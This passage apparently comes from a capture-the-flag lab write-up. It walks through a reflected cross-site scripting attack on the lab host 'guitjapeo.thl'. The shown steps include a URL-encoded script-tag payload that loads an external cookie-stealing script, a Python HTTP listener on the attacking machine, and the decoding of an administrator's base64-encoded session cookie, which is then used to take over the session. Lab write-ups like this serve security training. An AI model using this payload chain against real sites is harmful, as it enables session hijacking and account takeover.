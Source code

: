 - Send a message to the administrator with the malicious URL.
- The administrator clicks the link and loads the URL in their browser.
- The URL loads our script from GitHub.
- Our script connects to the `/api/info` endpoint to obtain the session cookie.
- The script redirects the administrator's browser to our attacking machine, sending a parameter `data` with the administrator's cookies encoded in base64.

We start listening on our attacking machine.

```
python3 -m http.server 80
```

We send a message to the administrator with the following URL...

```
https://guitjapeo.thl/?text=%3Cscript%20src%3D%22https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FLen4m%2Ftemp%40main%2Fcookies.js%22%3E%3C%2Fscript%3E
```

... and wait for them to click to receive their session cookie.

![alt text](../../assets/images/guitjapeo/image-8.png)

We decode the base64 and add the session data to our session from the browser.

```
┌──(kali㉿kali)-[~]
└─$ echo Y29ubmVjdC5zaWQ9cyUzQTlhNU5rN1U4MjJqSjhzVHZaMG1kXzE3ek1kWVpSaFNLLld0bnZQeDFkV0xLTHY0bE9yNk9FUzFlMHdiNG9zVyUyRjAwOWs2QXVscVo1bw== | base64 -d
connect.sid=s%3A9a5Nk7U822jJ8sTvZ0md_17zMdYZRhSK.WtnvPx1dWLKLv4lOr6OES1e0wb4osW%2F009k6AulqZ5o 
```
We refresh the page after modifying the cookie, and now we are logged in as the Administrator.
